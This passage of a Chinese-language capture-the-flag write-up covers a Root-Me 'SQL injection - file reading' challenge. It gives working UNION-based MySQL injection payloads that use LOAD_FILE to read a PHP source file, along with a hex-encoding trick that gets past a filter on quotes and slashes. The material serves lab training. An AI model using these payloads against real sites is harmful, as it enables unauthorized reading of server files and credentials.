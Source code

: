 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/14.png)

在 Mysql 中读取文件的函数为 `LOAD_FILE` ，只要把文件路径传参进去，就会返回文件内容。

因此我们可以把探针的 CONCAT 函数替换掉，改造成这样的 payload ：

```sql
-8544 UNION ALL SELECT NULL,LOAD_FILE("/challenge/web-serveur/ch31/index.php"),NULL,NULL--
```

但是这个 payload 无法直接使用，测试发现原因是引号 `"`、`'` 和文件路径符 `/` 不能被直接注入：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/15.png)


不过符号问题可以很简单绕过，只需要把 `/challenge/web-serveur/ch31/index.php` 编码成 16 进制再传参即可。

可以使用 Burp Suite -> Decoder 进行编码，得到 ：

`2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/16.png)

将其作为 `LOAD_FILE` 的参数（因为是 16 进制，注意前面要补 `0x` 声明），重新构造 payload 如下：

```sql
-8544 UNION ALL SELECT NULL,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870),NULL,NULL--
```

执行这个 payload ，成功得到 `index.php` 页面的文件源码（注意要在浏览器的开发者工具里面看）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/17.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
